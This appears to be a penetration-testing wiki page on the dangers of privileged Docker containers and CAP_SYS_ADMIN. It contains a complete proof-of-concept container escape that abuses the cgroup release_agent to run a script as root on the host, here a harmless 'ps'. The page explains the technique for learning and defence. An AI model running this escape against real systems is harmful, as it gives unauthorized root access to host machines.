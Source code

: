 Running a Docker container with `--privileged` or dangerous capabilities allows privileged operations. 

{% hint style="info" %}
The `--privileged` flag gives all [capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html) to the container, and it also lifts all the limitations enforced by the device cgroup controller. In other words, the container can then do almost everything that the host can do. 
{% endhint %}

You can use the [capsh](https://man7.org/linux/man-pages/man1/capsh.1.html) command to see granted capabilities:

```bash
$ capsh --print | grep Current
```

# CAP_SYS_ADMIN

[CAP_SYS_ADMIN](https://man7.org/linux/man-pages/man7/capabilities.7.html) is largely a catchall capability, it can easily lead to additional capabilities or full root (typically access to all capabilities). `CAP_SYS_ADMIN` is required to perform a range of administrative operations, which is difficult to drop from containers if privileged operations are performed within the container. Retaining this capability is often necessary for containers which mimic entire systems versus individual application containers which can be more restrictive.

## Abusing usermode helper API

Privileged containers can register usermode application helpers that are executed in the kernel context, for more information on invoking user-space applications from kernel see [here](https://developer.ibm.com/technologies/linux/articles/l-user-space-apps/).

The [@_fel1x](https://twitter.com/_fel1x/status/1151487051986087936) escape technique is based on abusing the functionality of the `notify_on_release` feature in cgroups v1 to run the exploit as a fully privileged root user.

Here is a version of the PoC that launches `ps` on the host:

```bash
# Finds + enables a cgroup release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# Enables notify_on_release in the cgroup
mkdir -p $d/w; echo 1 > $d/w/notify_on_release
# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent
# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c
# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1
# Reads the output
cat /o
```
